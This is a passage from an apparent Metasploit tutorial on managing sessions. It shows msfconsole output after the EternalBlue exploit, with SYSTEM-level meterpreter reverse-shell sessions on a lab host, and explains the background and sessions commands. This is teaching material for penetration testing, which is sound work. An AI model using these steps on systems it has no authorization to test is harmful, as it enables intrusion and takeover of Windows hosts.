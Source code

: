 This will return you the context prompt from which you have run the exploit.

Some modules support the `check` option. This will check if the target system is vulnerable without exploiting it.

## Sessions
Once a vulnerability has been successfully exploited, a session will be created. This is the communication channel established between the target system and Metasploit.

You can use the `background` command to background the session prompt and go back to the msfconsole prompt.

```shell-session
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Alternatively, `CTRL+Z` can be used to background sessions.

The `sessions` command can be used from the msfconsole prompt or any context to see the existing sessions.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163 (10.10.12.229)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186 (10.10.12.229)

msf6 >
```

To interact with any session, you can use the `sessions -i` command followed by the desired session number.
